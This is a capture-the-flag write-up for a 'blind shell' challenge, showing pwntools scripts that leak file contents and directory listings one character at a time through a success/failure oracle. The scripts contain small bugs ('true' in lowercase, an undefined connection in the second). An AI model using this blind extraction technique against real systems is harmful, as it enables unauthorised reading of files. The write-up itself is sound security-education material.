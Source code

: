# blind_shell_writeup
`It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010`

Connecting with netcat we're presented with a blind shell accepting only certain commands and responding either with "Success!" or "Failure!". So we thought about a blind attack to try to read the content of the file flag.txt with the bash command `[ $(head -c 1 flag.txt | tail -c 1) = 'a' ]` by incrementing the number of characters read everytime. The script worked like this
```
from pwn import *
import string

payload = "[ $(head -c {} flag.txt | tail -c 1) = '{}' ]"

r = remote("tasks.kksctf.ru", 30010)
r.recvuntil("$")
flag = ""
i = len(flag) + 1
found = False
while True:
    for l in string.printable:
        found = False
        r.sendline(payload.format(i, l))
        if b"Success" in r.recvuntil("$"):
            i = i+1
            flag += l
            found = true
            print("[+] Char found! {}".format(flag))
            break
    if not found:
        flag += " "
        i += 1
```
Unfortunately the flag wasn't there. So we stared looking around with ls using the same technique

```
from pwn import *
import string

payload = "[ $(ls | head -c {} | tail -c 1) = '{}' ]"

r.recvuntil("$")
flag = ""
i = len(flag) + 1
found = False
while True:
    for l in string.printable:
        found = False
        r.sendline(payload.format(i, l))
        if b"Success" in r.recvuntil("$"):
            i = i+1
            flag += l
            found = True
            print("[+] Char found! {}".format(flag))
            break
    if not found:
        flag += " "
        i+=1
 ```
We find another file called `maybehere` but reading it doesn't work because it's a directory and the flag is inside! You can check out the final working script in the repo. Finally the flag `kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}`
